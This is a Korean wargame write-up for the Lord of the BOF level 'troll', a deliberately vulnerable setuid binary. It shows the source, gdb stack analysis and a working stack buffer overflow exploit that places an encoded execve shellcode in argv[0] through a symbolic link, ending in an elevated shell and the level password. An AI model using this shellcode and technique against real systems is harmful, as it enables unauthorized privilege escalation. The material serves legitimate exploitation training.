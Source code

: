 ```yaml
---
title: "[LOB]Level08. troll"
tags: [LOB, writeup]
author: eli_ez3r
key: 20180829
modify_date: 2019-10-14
article_header:
  type: cover
  image:
    src: 
---
```


[+ Check argc](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	// here is changed
	if(argc != 2){
		printf("argc must be two!\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // buffer hunter
    memset(buffer, 0, 40);

	// one more!
	memset(argv[1], 0, strlen(argv[1]));
}
```

-----

### 0x01. Analysis

 argc의 개수를 2로 정해졌으므로, argv[2]를 사용 하지 못한다.

buffer내용도 0으로 초기화 되며, argv[1]를 이용해서 argv[2]를 덮으려고 해도 길이가 48을 넘어 갈 수 없다.

그리고 argv[1]에 넣은 만큼 0으로 초기화 된다.



트롤 맞네... 😩😫



초기화 안된 영역은 argv[0]영역(실행파일 이름) 밖에 없다.

따라서 파일 이름에 쉘코드를 넣어주어야 한다.

실제 스택에 올라가는 주소를 확인 하기 위해 `troll`파일을 `aroll`파일로 복사한 후 심볼릭 링크를 설정하였다.

```
[orge@localhost orge]$ ln -s aroll `python -c 'print "A"*50+"S"*48+"A"*32'`
```

- `A` : 앞 50byte, 뒤 32byte, NOP Code 들어갈 부분 (마지막에 NOP코드를 넣지 않는 경우 제대로 쉘코드가 실행 안되는 경우가 있다.)
-  `S` : 48byte ShellCode 들어갈 부분

이제 만든 심볼릭 링크를 이용하여 실행하여 본다. (core를 생성하자)

```
[orge@localhost orge]$ ./`python -c 'print "A"*50+"S"*48+"A"*32'` `python -c 'print "\x90"*44+"\xbf\xbf\xbf\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜옜
Segmentation fault (core dumped)
```

core를 확인해보자.

```
[orge@localhost orge]$ gdb -c core
GNU gdb 19991004
Copyright 1998 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i386-redhat-linux".
Core was generated by `./AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAASSSSSSSSSSSSSSSSSSSSSSSSSSS'.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfbfbf in ?? ()
```

RET에 정상적으로 `0xbfbfbfbf`가 들어간 것을 확인 할 수 있다.

```
(gdb) x/100x $esp
0xbffffc50:     0x000001fb      0x00000010      0x0f8bfbff      0x0000000f
0xbffffc60:     0xbffffc8c      0x00000000      0x00000000      0x00000000
0xbffffc70:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffc80:     0x00000000      0x00000000      0x00000000      0x36383669
0xbffffc90:     0x412f2e00      0x41414141      0x41414141      0x41414141
0xbffffca0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcc0:     0x41414141      0x53535341      0x53535353      0x53535353
0xbffffcd0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbffffce0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbffffcf0:     0x53535353      0x41414153      0x41414141      0x41414141
0xbffffd00:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffd10:     0x41414141      0x00000041      0x00000000      0x00000000
0xbffffd20:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffd30:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffd40:     0x00000000      0x00000000      0x00000000      0x00000000
(gdb)
```

스택에서 argv[0]부분의 주소를 확인해보면 `0xbffffca0` 근처 부분에 `A`값들이 들어간 것을 확인 할 수있다.

앞서 말한것 처럼 `A`가 들어가는 곳은 NOP Code가 들어가게 되고 `S`가 들어가는 곳은 Shell Code가 들어가는 공간이다.

> 왜 core 덤프로 확인할 때는 실제 NOP Code와 Shell Code를 넣지 않고 'A'와 'S'를 넣었을까?
>
> 실제 NOP코드와 Shell Code를 넣어서 확인하다 보면 터미널에 글씨들이 깨지는 현상이 일어날 때가 있다. 이를 방지하기 위해 공간만 할당하고 일반적인 문자를 넣어 확인한 것이다.

주소를 확인하였으니 실제 `troll` 바이너리를 심볼릭 링크로 걸고 Exploit을 해보자.



```
'\x2f'없는 shell(48byte) = 
\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```

> `\x2f`는 `/` 에 해당되는 Hex Code이다. 따라서 Shell Code에 `\x2f`가 들어가게 되면 심볼릭 링크하는 과정에서 `/`로 인식하게 된다. 디렉토리 경로를 나눌때 `/`를 이용하기 때문.

-----

### 0x02. Exploit

```
[orge@localhost orge]$ ln -s troll `python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80 \xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a \xe2\x9a\xb1\x0c\xce\x81"+"\x90"*32'`
```

이제 `A`와 `S`가 아닌 실제 Code들을 심볼릭 링크 이름으로 설정한다.



```
[orge@localhost orge]$ ./`python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x 75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\x b1\x0c\xce\x81"+"\x90"*32'` `python -c 'print "\x90"*44+"\xa0\xfc\xff\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱좢
풺ash$ id
uid=507(orge) gid=507(orge) euid=508(troll) egid=508(troll) groups=507(orge)
bash$ my-pass
euid = 508
aspirin
bash$
```

설정한 심볼릭 링크 이름으로 troll바이너리를 실행한다.

buffer 배열의 40byte와 SFP 4byte를 NOP Code로 덮어씌우고 RET부분에 argv[0] 영역으로 설정하여 Shell Code가 실행되는 것을 확인할 수 있다.

-----

### 0x03. 정리

해당 문제는

- argv[0]와 argv[1]만을 사용
- argv[1]의 길이는 48의 길이 제한
- RET의 시작주소는 `\xbf`로 고정
- 환경변수 초기화
- buffer배열 초기화
- argv[1] 스택 영역 초기화

보호기법이 적용된 문제이다.

이런경우는 **심볼릭 링크를 이용**하여 argv[0]에 Shell Code를 넣어 해결할 수 있음을 알게 해주는 문제이다.

-----

